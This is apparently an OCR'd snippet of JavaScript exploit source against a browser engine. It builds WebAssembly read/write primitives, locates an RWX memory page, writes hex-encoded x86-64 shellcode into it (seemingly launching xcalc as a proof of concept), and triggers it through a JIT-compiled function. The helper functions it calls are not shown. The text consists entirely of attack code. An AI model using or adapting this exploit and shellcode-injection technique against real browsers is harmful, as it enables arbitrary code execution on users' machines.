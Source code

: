 ```
  console.log('native_context: ' + native_context.str());

  //debug();

  global = field(native_context, 2 + 2);

  console.log('global: ' + global.str());

}





function run_wasm_exploit() {

  //debug();

  function jit(x, y) {

     for(var i = 0; i < 1000; i += 1){

          return x * y / (x*i);

     }

  }

  jit.name;

  setup_wasm_rw();

  find_global();

  var rwx = get_rwx();

  var mprotect_stub = [ 

    0x90909090,0x90909090,0x782fb848,0x636c6163,

    0x48500000,0x73752fb8,0x69622f72,0x8948506e,

    0xc03148e7,0x89485750,0xd23148e6,0x3ac0c748,

    0x50000030,0x4944b848,0x414c5053,0x48503d59,

    0x3148e289,0x485250c0,0xc748e289,0x00003bc0,

    0x050f00 

    ];

  for (var i = 0; i < mprotect_stub.length; i += 2){

    console.log('start');

    console.log('rwx: ' + rwx.str());

    write(rwx.add_u32(i * 4), new u64(mprotect_stub[i], mprotect_stub[i + 1]));

  }

  jit();
```